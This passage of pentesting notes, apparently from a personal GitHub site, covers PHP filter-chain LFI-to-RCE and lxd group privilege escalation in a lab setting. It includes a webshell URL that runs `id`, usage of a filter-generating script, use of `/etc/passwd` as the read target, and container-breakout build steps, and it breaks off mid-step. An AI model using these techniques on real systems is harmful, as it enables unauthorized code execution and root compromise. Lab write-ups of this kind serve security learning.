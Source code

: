 - To execute webshell e.g

      http://127.0.0.1/?0=id&file=[filter generated above]

- Sweet RCE[Test on Inclusiveness PG PLAY]
- Script usage for the php filter

      ./filter.py --rawbase64 [base64 encoded php code]

![image](https://github.com/user-attachments/assets/340321c8-e317-4ffa-bd7f-920ae50f57d8)

- Rce

![image](https://github.com/user-attachments/assets/d06ea870-87ae-4115-9b2c-c904ebc511cc)

- It should be noted that if you can read a valid file that is being rendered,you should tweak the script's variable to the file you can read.File `php://temp` is not compulsory,this approach is crucial in a case where a filename is required as a filter.

![image](https://github.com/user-attachments/assets/d5bfe1f8-1e22-4163-85bc-82ed2b73e335)

- Exploiting with valid `/etc/passwd` file

![image](https://github.com/user-attachments/assets/75d87504-5d1d-43ad-9c91-ad76c853a86c)



--------------------------------

### REFERENCES:

- [SundaeGan](https://medium.com/@sundaeGAN/php-wrapper-and-lfi2rce-81c536ef7a06)
- [Script's Link](https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/Notes/scripts/phpfilter.py)

---------------------------------

### Abusing group `lxd`

- If a user is part of the user `lxd`,we can create a vulnerable container and breakout as root

![image](https://github.com/user-attachments/assets/b84714a0-20dd-440d-a8f1-40e13d8f7bb4)

- Initialize lxd with `lxd init` and add this settings

![image](https://github.com/user-attachments/assets/28d07b8e-944c-4889-9872-6f15b4ff94cf)

- Create this a container in your machine and build with root

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine

- Transfer it to the victim machine,receive in the user's home directory

- Import with
